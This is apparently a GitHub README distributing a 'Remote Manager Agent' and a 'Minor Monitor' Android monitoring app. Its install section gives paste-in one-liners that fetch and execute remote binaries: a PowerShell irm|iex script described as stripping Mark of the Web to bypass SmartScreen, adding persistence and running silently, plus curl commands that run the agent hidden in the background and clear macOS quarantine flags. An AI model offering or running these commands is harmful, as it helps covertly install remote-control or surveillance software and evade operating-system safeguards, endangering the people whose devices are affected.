

<p align="center">
  
</p>

# 📱 Apps Vault — Satyam Kumar

Central distribution hub, binary release repository, and direct download center.

---

## 📦 Published Applications & Releases

| App Name | Category | Version | Direct Download Links |
| :--- | :--- | :--- | :--- |
| **Minor Monitor** | Parental Control & Diagnostics | `v1.2.7` | [📥 Download APK (v1.2.7)](https://github.com/satyamkumar420/apps-vault/releases/download/v1.2.7/app-release.apk) \| [Release Notes](https://github.com/satyamkumar420/apps-vault/releases/tag/v1.2.7) |
| **Remote Manager Agent** | Cross-Platform Remote Administration | `v2.0.0` | **Windows:** [📥 Silent EXE](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/windows/agent-windows-silent.exe) · [📥 Debug EXE](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/windows/agent-windows-debug.exe) · [📜 Silent BAT](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/windows/run-silent.bat)<br/>**Linux:** [📥 x86_64 (amd64)](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/linux/agent-linux-amd64) · [📥 ARM64](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/linux/agent-linux-arm64)<br/>**macOS:** [📥 Apple Silicon (arm64)](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/macos/agent-darwin-arm64) · [📥 Intel (amd64)](https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/macos/agent-darwin-amd64) |

---

## ⚡ Remote Manager Agent — Quick Install & Run

### 🪟 Windows (1-Liner PowerShell — No SmartScreen Prompt)
Open PowerShell and run this one-liner. It downloads the silent binary, strips the NTFS Mark of the Web (`Zone.Identifier`) to bypass SmartScreen blue popup, sets up persistence in `%APPDATA%\RemoteManager`, and launches silently in the background:

```powershell
irm https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/windows/install.ps1 | iex
```

> **Manual Run:** If you downloaded `agent-windows-silent.exe` directly via browser, either run `run-silent.bat` in the same folder or right-click the `.exe` → Properties → check **Unblock** → Run.

---

### 🐧 Linux (1-Liner Bash)
```bash
curl -sSL https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/linux/agent-linux-amd64 -o /tmp/remote-manager-agent && chmod +x /tmp/remote-manager-agent && (/tmp/remote-manager-agent >/dev/null 2>&1 &)
```

---

### 🍏 macOS (1-Liner Terminal)
```bash
# Apple Silicon (M1/M2/M3/M4)
curl -sSL https://raw.githubusercontent.com/satyamkumar420/apps-vault/master/remote-manager/macos/agent-darwin-arm64 -o /tmp/remote-manager-agent && chmod +x /tmp/remote-manager-agent && xattr -c /tmp/remote-manager-agent && (/tmp/remote-manager-agent >/dev/null 2>&1 &)
```

---

## 📱 Android Applications
1. Download the target `.apk` file directly from the table above or the [Releases Tab](https://github.com/satyamkumar420/apps-vault/releases).
2. Open the downloaded `.apk` file on your Android device.
3. Allow installation from unknown sources if prompted by your Android OS.
